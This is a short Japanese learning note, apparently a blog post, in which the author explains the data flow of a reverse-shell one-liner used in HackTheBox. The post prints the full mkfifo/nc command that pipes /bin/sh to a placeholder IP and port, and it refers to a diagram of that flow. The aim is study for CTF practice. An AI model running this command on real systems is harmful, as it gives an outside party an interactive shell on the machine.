

# 目的
私もHTBでよく使うリバースシェルを確立するためのコマンドについて、詳細に解説されていた。
https://zenn.dev/ssynkazu/articles/815630c2be9079

これまでも「名前付きパイプを作成し、それを使ってやり取りしている」という程度の理解度で、リスナーで渡された情報がどのような経路で流れているのかは曖昧だった。
そこで、処理の流れを整理するために図に起こしてみた。

`rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <IP> <Port> > /tmp/f`

# イメージ図
コマンドと上述の解説ページを基に作成したイメージ図

# 理解が曖昧だったポイント
- ncとネットワークの間に名前付きパイプが存在し、名前付きパイプを経由して通信しているものだと勘違いしていた。
    - ネットワークから受信したデータはncの標準出力に渡されるが、リダイレクトによって名前付きパイプ（`/tmp/f`）に書き込まれる。

